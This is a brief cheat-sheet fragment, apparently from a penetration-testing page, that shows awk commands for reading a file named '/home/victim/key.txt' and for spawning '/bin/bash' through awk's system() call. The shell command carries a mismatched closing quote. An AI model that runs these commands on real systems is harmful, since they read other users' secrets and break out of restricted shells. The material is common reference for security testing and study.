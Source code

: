 

## print content text file
```bash
awk '{print $1}' /home/victim/key.txt
```

## Start bash shell with awk
```bash
awk 'BEGIN {system("/bin/bash")}’
```

